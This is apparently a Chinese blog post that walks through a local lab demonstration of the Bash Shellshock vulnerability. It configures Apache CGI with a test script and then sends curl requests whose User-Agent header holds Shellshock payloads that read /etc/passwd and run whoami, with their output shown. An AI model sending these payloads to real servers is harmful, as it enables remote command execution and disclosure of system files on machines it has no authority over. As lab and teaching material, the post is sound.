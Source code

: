 ```yaml
---
title: Bash shock安全漏洞测试
tags: bash 漏洞
layout: post
---
```


昨天从微信上面，看到朋友发的最新的bash漏洞信息，感觉真的很可怕，现在互联网公司几乎都有使用到bash。现在我来带领大家实践一下使用这个漏洞的过程。

### 使Apache支持bash cgi
首先要确认Apache里面的CGI模块已经被载入 在httpd.conf 里面有一句：`LoadModule cgi_module modules/mod_cgi.so`这个必须有，然后搜索cgi-bin如果没有的话添加一段`ScriptAlias /cgi-bin/ "/var/www/cgi-bin"`

### 测试bash cgi Hello world
编辑文件：`vim /var/www/cgi-bin/hello.cgi`

    #!/bin/bash
    echo Content-type: text/html
    echo ""
    echo Hello, world.

执行以下命令：

    # chmod 755 /var/www/cgi-bin/hello.cgi`
    # curl localhost/cgi-bin/hello.cgi
    输出以下内容则代表Apache已经支持CGI了，就可以继续我们下面的测试
    Hello, world.

### 最可怕的测试

    localhost ~ # curl -A "() { :; }; echo ; /bin/cat /etc/passwd" http://localhost/cgi-bin/hello.cgi
    root:x:0:0:root:/root:/bin/bash
    bin:x:1:1:bin:/bin:/bin/false
    daemon:x:2:2:daemon:/sbin:/bin/false
    adm:x:3:4:adm:/var/adm:/bin/false
    lp:x:4:7:lp:/var/spool/lpd:/bin/false
    ... ... 

    localhost ~ # curl -A "() { :; }; echo ; /usr/bin/whoami" http://localhost/cgi-bin/hello.cgi
    apache

有牛人对这个漏洞进行了分析，本人表示看不懂，可以看一下
[Bash 3.0-4.3命令执行漏洞分析（by@知道创宇 lu4nx）](http://weibo.com/p/1001603758737234992740)
